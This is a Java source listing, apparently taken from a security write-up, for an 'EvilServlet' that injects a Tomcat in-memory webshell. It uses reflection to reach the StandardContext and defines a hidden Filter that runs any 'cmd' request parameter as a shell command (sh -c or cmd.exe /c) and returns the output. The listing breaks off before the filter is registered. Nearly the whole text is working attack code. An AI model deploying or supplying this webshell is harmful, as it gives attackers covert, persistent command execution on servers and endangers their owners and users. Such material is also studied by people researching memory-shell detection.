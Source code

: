 ```java

@WebServlet(name = "EvilServlet", value = "/EvilServlet")
public class EvilServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            // Get standardContext through reflection
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            String filterName = "h3rmesk1t";
            Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
            filterConfigs.setAccessible(true);
            Map filterConfigsMap = (Map) filterConfigs.get(standardContext);

            // Set malicious Filter
            if (filterConfigsMap.get(filterName) == null) {
                Filter filter = new Filter() {
                    @Override
                    public void init(FilterConfig config) {
                    }

                    @Override
                    public void destroy() {
                    }

                    @Override
                    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
                        HttpServletRequest httpServletRequest = (HttpServletRequest) request;
                        HttpServletResponse httpServletResponse = (HttpServletResponse) response;

                        if (httpServletRequest.getParameter("cmd") != null) {
                            boolean isLinux = true;
                            String osType = System.getProperty("os.name");
                            if (osType != null && osType.toLowerCase().contains("win")) {
                                isLinux = false;
                            }

                            String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                            InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            httpServletResponse.getWriter().write(output);
                            httpServletResponse.getWriter().flush();
                            return;
                        }
                        chain.doFilter(request, response);
                    }
```